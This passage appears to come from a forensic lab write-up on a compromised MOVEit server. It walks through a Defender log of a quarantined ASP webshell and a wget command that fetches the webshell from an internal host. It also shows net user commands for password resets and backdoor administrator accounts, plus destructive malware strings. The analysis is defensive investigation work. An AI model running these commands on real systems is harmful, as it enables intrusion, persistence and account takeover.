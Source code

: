     2023-07-12T11:17:47.511Z DETECTION_CLEANEVENT MPSOURCE_SYSTEM MP_THREAT_ACTION_QUARANTINE 0x80508023 Backdoor:ASP/Webshell!MSR file:C:\inetpub\wwwroot\moveit.asp;002ignedFileCheck=false, IsNotExcludedCertificate=true (FriendlySigSeq=0x0)7-12-2023 03:15:21



That explains why the actor gets 404 when trying to visit it. There's
also multiple quarantine events. So while the MFT only showed me the
last creation time for `moveit.asp`, it seems like it was uploaded and
quarantined multiple times.

There's also the `wget` command, matching what was in the PowerShell
logs:



    wget http://10.255.254.3:9001/moveit.asp -OutFile moveit.asp



### Password Change

The easiest way I know of to change a user's password (including the
current user) from the command line is `net user [username] [password]`.
I'll `grep` the strings for "net user". There's a bunch of activity, and
it's hard to tell what's from this event. It seems this is likely how
the actor changed moveitsvc's password:



    net user "moveitsvc" 5trongP4ssw0rd



There are other instances that would be worth digging into for a real
incident:



    net user /addnet localgroup administrators
    net user /add RIPPC%d rippc >nulC:\Windows\rippc.pngcmd.exe /c taskkill /f /im svchost.exeYour pc is dead!%s\Desktop\RIPPC%d.txtTHERE IS NO REMOVING THIS MALWARE I HOPE YOU LIKE USING A COMPUTER LIKE THIS!#HSTR:Trojan:MSIL/AsyncRAT.PA46!MTB
    net user admi
    net user admin$ hack /add
    net user Administrator /active:no
    net user Administrator /active:nonet user
    net user d3g1d5 dwixtkj37 /add
    net user d3g1d5 dwixtkj37 /addn
    net user dfrg.msc-
    net user guest 1234qwerr,administrator,guest,vmwareecho signature=$chicago$wmic useraccount where "name = 'guest'secedit /configure /cfgf
    net user "moveitsvc" 5trongP4ssw0rd
    net user %s Security1215! /addnet user %s waldo1215! /add/EXPIRES:NEVER /Active:YES&net localgroup users %s /delete&net localgroup Administrators %s /addf
    net user sysadm h3l_pdesk /expires:never
    net user sysadm h3l_pdesk /expires:nevern



Some of these seem like string from within a program (notice the `%s`
placeholders). Still, I'd want to look at the d3g1d5 and sysadm users
ASAP.
